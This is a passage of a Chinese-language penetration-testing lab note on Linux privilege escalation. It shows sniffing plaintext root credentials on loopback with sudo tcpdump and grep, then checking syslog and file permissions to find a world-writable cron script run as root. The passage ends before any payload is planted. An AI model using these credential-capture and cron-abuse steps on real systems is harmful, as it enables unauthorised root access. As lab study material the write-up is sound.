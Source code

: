 >> 可以看到 administrator 設置了一個 system daemon，有一個以 root 權限運行的系統 process，使用 sshpass -p 'Lab123' 來執行 SSH 登入 eve@127.0.0.1

#### tcpdump
利用 tcpdump 進行封包截取，作為提升權限 (Privilege Escalation)
tcpdump 需要管理員 (root) 權限，因為它使用 raw sockets 來捕獲流量，企業中有些 IT 人員會被授予特定 sudo 權限來執行 tcpdump。
```
joe@debian-privesc:~$ sudo tcpdump -i lo -A | grep "pass"
[sudo] password for joe:
tcpdump: verbose output suppressed, use -v or -vv for full protocol decode
listening on lo, link-type EN10MB (Ethernet), capture size 262144 bytes
...{...zuser:root,pass:lab -
...5...5user:root,pass:lab -
```
## Insecure File Permissions
Abuse 不安全的 cron job 與 file permissions\
### Abusing Cron Jobs
假設已經取得一個低權限使用者
```
┌──(chw㉿CHW)-[~]
└─$ ssh joe@192.168.235.214
joe@192.168.235.214's password: 
joe@debian-privesc:~$
```
在 linux 系統上， the cron time-based job scheduler is a prime target。如果管理員設定的 cron jobs 權限過於寬鬆 (可被低權限使用者修改)，攻擊者可以修改這個腳本並植入惡意指令，等到 cron 自動執行時，就能以 root 權限執行該指令。

#### 1. 查看有關 CRON 的 syslog
```
joe@debian-privesc:~$ grep "CRON" /var/log/syslog
...
Aug 25 04:56:07 debian-privesc cron[463]: (CRON) INFO (pidfile fd = 3)
Aug 25 04:56:07 debian-privesc cron[463]: (CRON) INFO (Running @reboot jobs)
Aug 25 04:57:01 debian-privesc CRON[918]:  (root) CMD (/bin/bash /home/joe/.scripts/user_backups.sh)
Aug 25 04:58:01 debian-privesc CRON[1043]: (root) CMD (/bin/bash /home/joe/.scripts/user_backups.sh)
Aug 25 04:59:01 debian-privesc CRON[1223]: (root) CMD (/bin/bash /home/joe/.scripts/user_backups.sh)
```
> `user_backups.sh` 是使用 root 權限

檢查 user_backups.sh 權限
```
joe@debian-privesc:~$ cat /home/joe/.scripts/user_backups.sh
#!/bin/bash

cp -rf /home/joe/ /var/backups/joe/

joe@debian-privesc:~$ ls -lah /home/joe/.scripts/user_backups.sh
-rwxrwxrw- 1 root root 49 Aug 25 05:12 /home/joe/.scripts/user_backups.sh
```
> script 將使用者的主目錄複製到 backups 子目錄\
> permission: 每個 local user 都可寫入

